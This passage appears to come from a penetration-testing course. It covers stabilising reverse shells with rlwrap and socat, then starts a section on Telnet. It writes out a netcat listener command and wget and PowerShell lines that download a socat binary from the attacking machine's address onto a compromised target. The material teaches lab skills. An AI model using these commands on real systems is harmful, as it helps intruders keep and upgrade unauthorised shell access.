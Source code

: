   
*<span style="text-decoration:underline;">Technique 2: rlwrap</span>*  
rlwrap is a program which, in simple terms, gives us access to history,
tab autocompletion and the arrow keys immediately upon receiving a
shell*;* however, s*ome* manual stabilisation must still be utilised if
you want to be able to use Ctrl + C inside the shell. rlwrap is not
installed by default on Kali, so first install it with
`sudo apt install rlwrap`.  
To use rlwrap, we invoke a slightly different listener:  
`rlwrap nc -lvnp <port>`  
  
Prepending our netcat listener with "rlwrap" gives us a much more fully
featured shell. This technique is particularly useful when dealing with
Windows shells, which are otherwise notoriously difficult to stabilise.
When dealing with a Linux target, it's possible to completely stabilise,
by using the same trick as in step three of the previous technique:
background the shell with Ctrl + Z, then use `stty raw -echo; fg` to
stabilise and re-enter the shell.  
  
  
 *<span style="text-decoration:underline;">Technique 3: Socat</span>*  
  
The third easy way to stabilise a shell is quite simply to use an
initial netcat shell as a stepping stone into a more fully-featured
socat shell. Bear in mind that this technique is limited to Linux
targets, as a Socat shell on Windows will be no more stable than a
netcat shell. To accomplish this method of stabilisation we would first
transfer a [socat static compiled
binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
(a version of the program compiled to have no dependencies) up to the
target machine. A typical way to achieve this would be using a webserver
on the attacking machine inside the directory containing your socat
binary (`sudo python3 -m http.server 80`), then, on the target machine,
using the netcat shell to download the file. On Linux this would be
accomplished with curl or wget
(`wget <LOCAL-IP>/socat -O /tmp/socat`).  
For the sake of completeness: in a Windows CLI environment the same can
be done with Powershell, using either Invoke-WebRequest or a webrequest
system class, depending on the version of Powershell installed
(`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`).
We will cover the syntax for sending and receiving shells with Socat in
the upcoming tasks.  

# Service Enumeration

  

# Telnet

  
**What is Telnet?**  
Telnet is an application protocol which allows you, with the use of a
telnet client, to connect to and execute commands on a remote machine
that's hosting a telnet server.  
  